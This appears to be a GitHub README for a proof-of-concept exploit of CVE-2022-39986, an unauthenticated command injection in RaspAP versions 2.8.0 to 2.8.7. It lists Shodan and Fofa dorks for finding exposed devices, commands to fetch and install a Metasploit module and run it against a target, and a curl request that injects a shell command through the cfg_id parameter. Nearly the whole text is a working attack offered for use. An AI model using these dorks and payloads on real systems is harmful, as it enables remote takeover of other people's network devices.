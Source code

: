 # CVE-2022-39986
![](https://img.shields.io/static/v1?label=Product&message=RaspAP&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=2.8.0%20thru%202.8.7&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Command%20Injection&color=red)

- Shodan dork:
```
"RaspAP"
```
```
Raspbian WIFI
```
```
http.favicon.hash:316853479
```
- Fofa dork:
```
icon_hash="316853479"
```
### Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2022/RaspAp_RCE/raspap_rce.rb
```
```
cp  raspap_rce.rb /usr/share/metasploit-framework/modules/exploits/unix/http/
```
### Usage
```
msfdb reinit; msfconsole -q
```
```
use exploit/unix/http/raspap_rce
```
```
set RHOST [IP]
set RPORT [PORT]
check
```
### Curl PoC
```
curl -X POST -d 'cfg_id=;id;#' http://TARGET/ajax/openvpn/del_ovpncfg.php
```
